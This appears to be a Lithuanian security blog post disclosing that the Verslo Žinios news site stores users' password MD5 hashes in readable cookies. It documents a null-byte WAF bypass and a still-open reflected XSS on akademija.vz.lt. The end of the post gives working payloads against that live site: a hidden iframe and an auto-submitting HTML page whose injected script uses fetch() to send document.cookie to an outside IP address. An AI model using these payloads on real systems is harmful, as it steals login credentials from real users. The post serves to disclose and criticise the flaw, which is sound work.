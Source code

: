 ﻿---
layout:     post
title:      "Kas skaito VŽ slapukus?"
date:       2022-12-31 08:00:00
categories: HackAndTell
cover:      manovz.svg); background-color:rgb(187,1,42); background-color:rgb(187,1,42
permalink:  /lt/blog/vz-slapukai
---
Atsitik tu man taip, kad naršydamas [Verslo Žinias](https://www.vz.lt) (VŽ) paspaudžiau "[uždraustą](https://techcrunch.com/2021/10/15/f12-isnt-hacking-missouri-governor-threatens-to-prosecute-local-journalist-for-finding-exposed-state-data/) [mygtuką](https://twitter.com/GovParsonMO/status/1448697768311132160)" F12. Dėmesį patraukė ilgas slapukų sąrašas:

![Slapukai](Aspose.Words.b1fb0fc0-e952-493f-afb0-bb379959ba23.001.png "Slapukai")

Ten buvo slapukų su įdomiu pavadinimu [evercookie](https://en.wikipedia.org/wiki/Evercookie), bet ši istorija ne apie tai. Labiausiai kliuvo `VzLtLoginInfo`, kurio reikšmė buvo mano elektroninio pašto adresas, ir `VzLTLoginInfoPwd`, kurio reikšmė buvo 32-iejų raidžių ir skaičių kratinys. Kadangi savo slaptažodį puikiai žinau, greitai [patikrinau](https://emn178.github.io/online-tools/md5.html) hipotezę, kad tai jo MD5 reikšmė.

### Web programų 101

Reikia pasakyti, kad tai rimtas anti-pattern'as. Vartotojo slaptažodis turi būti perduodamas į serverį vieną vienintelį kartą per šifruotą HTTPS prisijungimą. Serveris nustato vartotojo tapatybę ir stateful architektūros atveju sukuria vartotojui sesiją. Tam serveris turi sugeneruoti tikrai atsitiktinį identifikatorių, kurio neįmanoma atspėti. Ir ne, [Math.random()](https://securitylab.github.com/advisories/GHSL-2020-228-YMFE-yapi/) ir kiti PRNG algoritmai tam netinka. Naršyklė gautą sesijos identifikatorių išsaugo pvz. slapuke.

Toliau naršyklė ir serveris bendrauja tik per sesijos identifikatorių. Vartotojo slaptažodis naršyklėje niekur nesaugomas jokiame pavidale iš kurio galima būtų atkurti jo pradinę reikšmę (MD5 yra super greitas, super pasenęs algoritmas, leidžiantis milžinišku greičiu surasti pradinį slaptažodį). Vartotojui atsijungus (angl. sign out) sesija serveryje yra panaikinama ir senas sesijos identifikatorius nebetenka jokios reikšmės.

### Na ir kas?

Galite paklausti: "Na ir kas čia tokio, kad slaptažodžio MD5 reikšmė išsaugoma slapuke? Juk ji išsaugoma mano kompiuteryje, mano naršyklėje ir neprieinama niekam kitam. Tik man ir serveriui, kuris ir taip mano slaptažodį žino." Galima būtų tiesiog pasijuokti iš tokio architektūrinio sprendimo ir tiek, bet pabandykime pademonstruoti jo įtaką saugumui.

Kaip matome `VzLtLoginInfoPwd` slapukas neturi `HttpOnly` atributo (t.y. JavaScript puslapio kodas turi teisę jį perskaityti) ir išrašytas visiems [vz.lt](https://vz.lt) subdomain'ams. Tai reiškia kad XSS pažeidžiamumo atveju bet kokiame iš [vz.lt](https://vz.lt) subdomain'ų ([www.vz.lt](https://www.vz.lt), [mano.vz.lt](https://mano.vz.lt), [login.vz.lt](https://login.vz.lt) ir t.t.) kenkėjiškas kodas gali jį pavogti. Sėkmingos vagystės atveju galima atkurti pradinį slaptažodį, bet tai net nesvarbu, nes pavogta MD5 reikšmė pati savaimė yra "prisijungimo bilietas". **Tačiau skirtingai nuo sesijos identifikatoriaus, pavogta reikšmė galioja tiek, kiek galioja vartotojo slaptažodis.**

### Ieškome XSS

2018-ais esu pranešęs per [NKSC](https://www.nksc.lt/) apie galimybe įterpti Stored XSS akivaizdžioje vietoje - VŽ komentaruose. Pabandykime surasti XSS VŽ portale... Po kurio laiko išryškėja pirmasis kandidatas: [https://www.vz.lt/apps/pbcs.dll/exec?name=asdf](https://www.vz.lt/apps/pbcs.dll/exec?name=asdf).

Serveris atsako pranešimu:

![ERROR: Script asdf is missing!](Aspose.Words.b1fb0fc0-e952-493f-afb0-bb379959ba23.002.png "ERROR: Script asdf is missing!")

Tai, kad serveris "atspindi" mūsų įvestą reikšmę yra geras ženklas. Pabandome [https://www.vz.lt/apps/pbcs.dll/exec?name=&lt;i>asdf&lt;/i>](https://www.vz.lt/apps/pbcs.dll/exec?name=<i>asdf</i>) ir gauname:

![SQL Injection. System will not process this request.](Aspose.Words.b1fb0fc0-e952-493f-afb0-bb379959ba23.003.png "SQL Injection. System will not process this request.")

Tas pats ir su [https://www.vz.lt/apps/pbcs.dll/exec?name=&lt;](https://www.vz.lt/apps/pbcs.dll/exec?name=<). Panašu į kažkokį savadarbį [WAF](https://en.wikipedia.org/wiki/Web_application_firewall) (Web Application Firewall). Galima tik spėlioti prie ko čia SQL injekcija. Pabandome [https://www.vz.lt/apps/pbcs.dll/exec?name=%00&lt;i>asdf&lt;/i>](https://www.vz.lt/apps/pbcs.dll/exec?name=%00<i>asdf</i>) ir matome:

![ERROR: Script italic_start asdf italic_end_ is missing!](Aspose.Words.b1fb0fc0-e952-493f-afb0-bb379959ba23.004.png "ERROR: Script italic_start asdf italic_end is missing!")

Įterpę nulinį baitą sėkmingai apėjome WAF, o serveris atvaizdavo mūsų HTML kodą. [Hello PHP](https://www.php.net/manual/en/security.filesystem.nullbytes.php)? :)

Tačiau įvedę [https://www.vz.lt/apps/pbcs.dll/exec?name=%00&lt;script>alert(1)&lt;/script>](https://www.vz.lt/apps/pbcs.dll/exec?name=%00<script>alert(1)</script>) serveris atsako:

![Access denied](Aspose.Words.b1fb0fc0-e952-493f-afb0-bb379959ba23.005.png "Access denied")

Panašu, kad VŽ naudoja dar vieną WAF – Imperva. Šis komercinis sprendimas turi ilgą šleifą taisytų klaidų ir nors jo apėjimo būdą yra sunkiau surasti, tačiau [nėra](https://www.google.com/search?q=imperva+xss+bypass) [neįmanoma](https://github.com/0xInfection/Awesome-WAF/blob/master/README.md#imperva). Vis dėlto yra lengvesnių kelių. [Openbugbounty](https://www.openbugbounty.org/) randame du įrašus apie XSS VŽ portale, apie kuriuos buvo pranešta Verslo Žinioms 2018 m. Sausio 19 d. ir 2018 m. Rugpjūčio 10 d.:

- [https://www.openbugbounty.org/reports/533348/](https://www.openbugbounty.org/reports/533348/)
- [https://www.openbugbounty.org/reports/661990/](https://www.openbugbounty.org/reports/661990/)

Antrasis yra "pridengtas" Imperva, tačiau pirmasis veikia iki šiol! WAF naudojimas negali būti priežastimi netaisyti žinomų pažeidžiamumų. Ar jis liko neištaisytas todėl, kad yra [akademija.vz.lt](https://akademija.vz.lt), o ne pagrindiniame subdomain'e [www.vz.lt](https://www.vz.lt)? Didelė klaida, nes šis subdomain'as gali skaityti `VzLtLoginInfoPwd` ir `VzLtLoginInfo` slapukus: [https://akademija.vz.lt/paieska/?q=">&lt;script>alert(document.cookie)&lt;/script>](https://akademija.vz.lt/paieska/?q=%22%3e%3cscript%3ealert\(document.cookie\)%3c/script%3e).

### Kas iš to alert?

Tai yra Reflected XSS, nes esamam vartotojui reikia atidaryti šią nuorodą, kad kodas būtų įvykdytas. Tačiau būtų klaidinga nuvertinti tai ir priskirti prie socialinės inžinerijos atakų. VŽ vartotojams, kurie naudoja Safari naršyklę nepasisekė - tereikia įterpti šį kodą `<iframe style="display:none" src="https://akademija.vz.lt/paieska/?q=%22%3e%3cscript%3ehttps://172.17.247.54:4443?c=&#x22;+document.cookie%3c/script%3e"></iframe>` į kokį nulaužtą puslapį, kurį jie aplanko ir slapukas bus pavogtas jiems nematant. Iki 2020 m. vasaros tai taip pat veikė Chrome ir Firefox naršyklėse. Dabar tam reikia, kad slapukas būtų pažymėtas atributais `Secure` (leisti siųsti slapuką tiktai per HTTPS) ir `SameSite=None`. VŽ slapukai jų neturi.

Vis dėlto, yra kitas būdas, kuris veikia visur. Šis kodas kenkėjiškame puslapyje arba nulaužtame forume trumpam blykstelėjęs išsiųs [vz.lt](https://vz.lt) slapukus trečioms šalims:

```html
<html>
<body>
  Welcome
  <form action="https://akademija.vz.lt/paieska/">
    <input type="hidden" name="q"
      value="&#x22;&#x3E;&#x3C;script&#x3E;fetch(&#x22;https://172.17.247.54:4443?c=&#x22;+document.cookie);history.back()&#x3C;/script&#x3E;" />
    <input type="hidden" type="submit" value="Submit request" />
  </form>
  <script>
    if (!document.cookie.split('; ').find(row => row.startsWith('foo='))) {
      const url = new URL(window.location);
      window.history.pushState({}, '', url);
      document.forms[0].submit();
      document.cookie = "foo=bar; expires=Fri, 31 Dec 9999 23:59:59 GMT";
    }
  </script>
  <iframe width="640" height="320" src="https://www.youtube.com/embed/6FQsIfE7sZM" title="YouTube video player"
    frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture"
    allowfullscreen>
  </iframe>
</body>
</html>
```
